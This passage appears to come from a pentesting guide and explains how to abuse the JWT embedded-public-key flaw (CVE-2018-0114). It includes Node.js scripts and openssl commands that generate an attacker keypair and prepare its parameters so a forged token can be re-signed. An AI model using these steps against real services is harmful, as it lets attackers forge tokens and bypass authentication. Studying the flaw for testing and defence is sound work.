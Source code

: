 ### Embedded Public Key (CVE-2018-0114)

If the JWT has embedded a public key like in the following scenario:

![](<../.gitbook/assets/image (624).png>)

Using the following nodejs script it's possible to generate a public key from that data:

```bash
const NodeRSA = require('node-rsa');
const fs = require('fs');
n ="​ANQ3hoFoDxGQMhYOAc6CHmzz6_Z20hiP1Nvl1IN6phLwBj5gLei3e4e-DDmdwQ1zOueacCun0DkX1gMtTTX36jR8CnoBRBUTmNsQ7zaL3jIU4iXeYGuy7WPZ_TQEuAO1ogVQudn2zTXEiQeh-58tuPeTVpKmqZdS3Mpum3l72GHBbqggo_1h3cyvW4j3QM49YbV35aHV3WbwZJXPzWcDoEnCM4EwnqJiKeSpxvaClxQ5nQo3h2WdnV03C5WuLWaBNhDfC_HItdcaZ3pjImAjo4jkkej6mW3eXqtmDX39uZUyvwBzreMWh6uOu9W0DMdGBbfNNWcaR5tSZEGGj2divE8"​;
e = "AQAB";
const key = new NodeRSA();
var importedKey = key.importKey({n: Buffer.from(n, 'base64'),e: Buffer.from(e, 'base64'),}, 'components-public');
console.log(importedKey.exportKey("public"));
```

It's possible to generate a new private/public key, embeded the new public key inside the token and use it to generate a new signature:

```bash
openssl genrsa -out keypair.pem 2048
openssl rsa -in keypair.pem -pubout -out publickey.crt
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```

You can obtain the "n" and "e" using this nodejs script:

```bash
const NodeRSA = require('node-rsa');
const fs = require('fs');
keyPair = fs.readFileSync("keypair.pem");
const key = new NodeRSA(keyPair);
const publicComponents = key.exportKey('components-public');
console.log('Parameter n: ', publicComponents.n.toString("hex"));
console.log('Parameter e: ', publicComponents.e.toString(16));
```
